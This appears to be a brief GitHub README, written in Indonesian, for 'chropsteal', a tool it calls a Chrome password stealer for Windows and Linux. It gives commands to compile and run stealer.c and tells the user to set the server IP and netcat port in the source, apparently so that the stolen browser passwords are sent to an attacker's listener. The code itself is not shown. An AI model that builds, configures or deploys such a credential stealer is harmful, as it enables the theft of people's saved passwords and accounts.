 # chropsteal
Chrome Password Stealer

Khusus target Windows dan Linux

Untuk penggunaan
```
gcc.exe stealer.c -o stealer.exe
```

```
stealer.exe
```

Pastikan ip server dan port netcat yang ada pada stealer.c disesuaikan